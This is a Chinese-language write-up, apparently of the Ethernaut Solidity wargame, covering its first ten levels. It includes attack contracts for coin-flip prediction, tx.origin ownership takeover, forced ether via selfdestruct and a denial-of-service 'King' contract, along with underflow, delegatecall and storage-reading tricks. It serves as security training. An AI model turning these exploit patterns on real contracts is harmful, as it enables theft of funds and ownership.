

# Writeup(31)
## 1.Hello Ethernaut

跟着返回的提示调用合约函数



## 2.Fallback
1. 调用contribute函数捐款小于0.001e的数额, getContribution函数返回值大于0
2. 发送任意数额的eth调用fallback函数, owner改为当前账户
3. 调用withdraw提取所有金额

## 3.Fallout

Fal1out并不是构造函数, 手动调用即可

注意:Solidity合约构造函数不能和合约名一样

## 4.Coin Flip
编写合约代码, 提前计算结果, 在不同的区块下调用guess函数10次
```solidity
contract Guess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip x = CoinFlip(0x7B588F9C807501337AFa5AeF3945bd18FdAF9CbF);
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        x.flip(side);
    }
}
```
## 5.Telephone
tx.origin是交易的发起者, msg.sender是当前函数的调用者
编写hack合约, 通过合约调用changeOwner函数
```solidity
contract Hack {
    constructor() {
        Telephone t = Telephone(0x35B2bAb61Ee13B9256811B693AA054Ad1dd016Ec);
        t.changeOwner(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }
}
```
## 6. Token
向任意地址发送21单位的token
```solidity
// 直接操作uint256变量减法会有溢出问题
require(balances[msg.sender] - _value >= 0);
```
## 7.Delegation
利用下面的代码完成代理调用
```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```
向Delegation合约发送0eth, tx的data部分为pwn的方法id

## 8. Force
使用selfdestruct销毁自建合约, 向目标合约发送eth
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        selfdestruct(0x888Eaa51Cd5E643DFc19b594DA803362c5265B7b);
    }
}
```
## 9. Vault
使用函数w3.eth.get_storage_at读取对应slot值, 获取password, 调用unlock函数解锁

## 10. King
使用合约向目标合约转0.001eth, 成为新的king, 其他人再尝试获得king会因为transfer不成功而失败
注意要使用低级调用call函数, 当调用数据为空时, 会自动调用目标合约的receive函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        (bool success, ) = 0xaD5Ae7Ec24Ae99e2971F5f0D5c21DCBe24189962.call{value:msg.value}("");
        require(success, "failed");
    }
}
```
